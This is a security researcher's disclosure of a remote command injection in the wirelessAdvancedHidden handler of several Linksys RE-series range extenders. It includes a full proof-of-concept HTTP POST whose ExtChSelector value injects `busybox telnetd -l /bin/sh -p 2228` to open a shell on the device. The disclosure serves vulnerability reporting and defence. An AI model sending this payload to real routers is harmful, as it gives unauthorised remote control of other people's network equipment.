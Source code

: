 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500
>
> There is also a stack overflow vulnerability



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `wirelessAdvancedHidden` function, `ExtChSelector、24GSelector、5GSelector` is directly passed by the attacker, so we can control the `ExtChSelector、24GSelector、5GSelector` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `ExtChSelector` as **`busybox telnetd -l /bin/sh -p 2228`** , and the router will excute it,such as:

```http
POST /goform/wirelessAdvancedHidden HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=DfUFHO19McbmB4Vddjy1gTkhyYaZ6RXJ
Upgrade-Insecure-Requests: 1

aggregateType=104&ExtChSelector=`busybox telnetd -l /bin/sh -p 2228`&24GSelector=pjqwudi
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>


